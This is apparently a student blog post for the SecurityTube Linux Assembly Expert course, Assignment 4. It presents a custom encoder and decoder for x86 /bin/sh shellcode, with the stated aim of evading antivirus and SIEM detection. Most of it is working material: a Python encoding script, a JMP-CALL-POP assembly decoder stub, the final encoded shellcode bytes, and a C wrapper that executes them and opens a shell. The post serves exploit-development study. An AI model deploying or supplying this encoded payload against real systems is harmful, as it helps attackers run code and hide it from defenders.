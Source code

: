 **Assignment 4**

Custom encoder and decoder for bin/sh shellcode

**Introduction**

	A shellcode encoder is used to modify an existing shellcode to make it harder to detect by AV engines / SIEM tools 

	The encoder itself doesn’t provide any real security however since the obfuscation scheme is built into the code and is therefore reversible by anyone who has access to the encoded shellcode. This should not be confused with encryption, where security is based on the key and not the secrecy of the encryption scheme


**Methadology**

	Following is the Encoding schema being used in the order

		Each byte of the /bin/sh shellcode is decremented by 1
		NOT operation on each bytes
		Each byte is Xor ed with 0xbb


	This Encoded payload is generated using a python script

	The Decoding schema being used in the order
		Each byte is Xor ed with 0xbb
		NOT operation on each bytes
		Each byte is incremented by 1
	

	Following script takes the shellcode and perform the above mentioned encoding operation for each byte.
		EncoderScript.py
		#!/bin/python3

		import socket
		import sys

		sc_original = (b"\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")
									#/bin/sh shellcode
									#shellcode is considered as a byte array
		enc = ""
		enc2= ""

		for c in bytearray(sc_original):
        	 a = c - 0x01            	#each byte is decremented by 1
        	 b = ~a                  	#NOT operation
        	 c = b^0xBB              	#XOR operation on each byte 
        								#based on premise A XOR B = C , C XOR B = A
        	 enc+= '\\x'
        	 enc+= "%02x" %(c & 0xff)

       	 	 enc2+= "0x"
        	 enc2+= "%02x," %(c & 0xff)


		print("Encoded Payload:  ")
		print("----------------------")

		s2 = enc2.rstrip(',')
		print(s2)


		toor@ubuntu:~/Desktop/slae/Assignments/4$ python3 encodecreaterpy3.py
		Encoded Payload:
		----------------------
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b
		toor@ubuntu:~/Desktop/slae/Assignments/4$


	We have the encoded payload now 
	0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b

	a 0xbb is appended to the encoded shellcode to make the program easier ie appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload. Now the payload would be .

	Its worth mentioning that A XOR A = 0 , so when you perform an xor operation make sure that the operator byte is not in the encoded payload
	
	Final Payload would be,
		0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb

	Now ,we write a assembly program to decode this encoded shellcode 

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat damn.asm
		global _start

		section .text

		_start:

        		jmp short step_1
		step_2:
        		pop edi

		decoder:

        		cmp byte [edi],0xbb
        		jz shellcode

        		xor byte [edi],0xbb  ;xor with bb
        		not byte [edi]       ;not operation
        		inc byte [edi]       ;inc byte

        		inc edi
        		jmp short decoder


		step_1:
        		call step_2
        	shellcode: db 0x74,0xfb,0x0b,0x23,0x29,0x6a,0x36,0x23,0x23,0x6a,0x6a,0x25,0x2c,0xcc,0xa6,0x0b,0xcc,0xa5,0x16,0xcc,0xa4,0xeb,0x4e,0x88,0x3b,0xbb
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$


	Program starts with a jmp to step_1  and then a call to step_2
	The decoder uses the JMP CALL POP technique to push the address of the encoded shellcode on the stack. so when the call instruction is executed the address of the next instruction is put on to the stack on the premise that once the function is over ,the control is given back to the next instruction

	So the Address of the variable shellcode is put onto the stack and is poped on to edi

	Appended 0xbb in the shellcode variable is used as a marker to pointout the end of the encoded payload . A comparison operator is used here to check whether rhe operation is complete

	Each byte of "shellcode" will be undergoing decoder process ie

								xor with 0xbb
								not operation
								increment 
   	Once the process is over control is given to the shellcode address ,where the /bin/sh decoded shellcode is .


**Practical**

Extracting shellcode
	
	toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ objdump -d ./damn|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb"
	
	The shellcode is copied onto a shellcode test c wrapper program t give control to the shellcode

		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ cat shellcodetest.c
		#include<stdio.h>
		#include<string.h>

		char code[] = 	"\xeb\x10\x5f\x80\x3f\xbb\x74\x0f\x80\x37\xbb\xf6\x17\xfe\x07\x47\xeb\xf1\xe8\xeb\xff\xff\xff\x74\xfb\x0b\x23\x29\x6a\x36\x23\x23\x6a\x6a\x25\x2c\xcc\xa6\x0b\xcc\xa5\x16\xcc\xa4\xeb\x4e\x88\x3b\xbb";

		int main(void)
		{
        	printf("shellcode length: %d\n",strlen(code));
        	(*(void(*)()) code)();
		}


		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ nano shellcodetest.c
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ gcc -fno-stack-protector -z execstack shellcodetest.c -o shellcode
	
		toor@ubuntu:~/Desktop/slae/Assignments/4/etc$ ./shellcode
		shellcode length: 49
		$ id
		uid=1000(toor) gid=1000(toor) groups=1000(toor),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
	Works like a charm!

**Github Repository**

	This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

	Student ID: SLAE-1509
